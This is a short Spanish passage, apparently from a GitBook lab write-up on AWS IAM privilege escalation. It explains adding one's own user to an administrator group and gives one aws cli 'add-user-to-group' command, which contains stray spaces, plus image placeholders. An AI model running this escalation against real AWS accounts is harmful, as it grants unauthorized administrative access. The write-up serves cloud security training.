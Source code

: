 ### Explotación

La explotación de este caso es bastante sencilla, se busca enumerar los grupos existentes y proceder a añadirse a si mismo al grupo seleccionado, por ejemplo el grupo de administradores locales:

{% code overflow="wrap" %}
```
aws iam add-user-to-group --group-name Group-Root- Spartan --user-name privesc13-AddUserToGroup-user -- profile privesc13
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (31) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (37) (1).png" alt=""><figcaption></figcaption></figure>







